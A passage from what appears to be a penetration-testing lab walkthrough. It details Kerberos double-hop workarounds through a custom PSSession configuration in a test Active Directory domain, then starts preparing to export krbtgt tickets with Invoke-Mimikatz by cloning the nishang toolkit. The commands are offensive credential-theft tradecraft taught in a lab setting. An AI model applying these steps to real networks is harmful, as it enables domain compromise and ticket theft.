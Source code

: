 4. Run `klist` again:
   ```
   Current LogonId is 0:0xc7fbc

   Cached Tickets: (0)
   ```
   __NOTE(S)__:
   - `klist` can now check for cached tickets
   - Passing exported tickets using `Invoke-Mimikatz` would throw the same error from the previous `klist` if a proper session is not configured.
   - Even if an Administrator ticket was passed successfully, passing commands in or accessing the Domain Controller would be denied
     - The entire session should be restarted with the proper configuration.

5. Type `Restart-Service WinRM` then enter a new PSSession with the registered configuration:
   ```ps1
   Enter-PSSession -ComputerName 192.168.150.128 -Credential BOSSMANBEN\GConcy -ConfigurationName GodConcy
   ```
   __NOTE(S)__:
   - The shell will terminate after restarting the service.
   - Enter the credentials for BOSSMANBEN\GConcy in the password prompt

6. Run `klist` again:
   ```
   Current LogonId is 0:0xd0ebf

   Cached Tickets: (1)

   #0>     Client: GConcy @ BOSSMANBEN.LOCAL
           Server: krbtgt/BOSSMANBEN.LOCAL @ BOSSMANBEN.LOCAL
           KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
           Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
           Start Time: 7/12/2019 15:42:59 (local)
           End Time:   7/13/2019 1:42:59 (local)
           Renew Time: 7/19/2019 15:42:59 (local)
           Session Key Type: AES-256-CTS-HMAC-SHA1-96
           Cache Flags: 0x1 -> PRIMARY
           Kdc Called: WIN-BO2CT95INDP
   ```
   __NOTE(S)__:
   - The session now actually runs as the user, __BOSSMANBEN\\GConcy__
   - This session now eliminates the __double hop__ problem:
     - Instead of the local machine sending a request to the remote machine before reaching the server, the local machine is now acting as or impersonating the remote machine running as the user __BOSSMANBEN\\GConcy__.
     - Since the local machine (KALI-WINDOWS) now acts like the remote machine (MSEDGEWIN10), it would seem like the requests sent from the local machine are now going directly to the Domain Controller (BOSSMANBEN).
     - The two previous statement would be useful since the goal of this exploit is to reach the Domain Controller (BOSSMANBEN) using the local machine (KALI-WINDOWS) "without jumping" from the remote machine (MSEDGEWIN10)

#### ii. Export krbtgt tickets using Invoke-Mimikatz:
1. Download the exploit to the local machine (KALI-WINDOWS):
   ```ps1
   git clone https://github.com/samratashok/nishang

   cd .\nishang\Gather
   ```
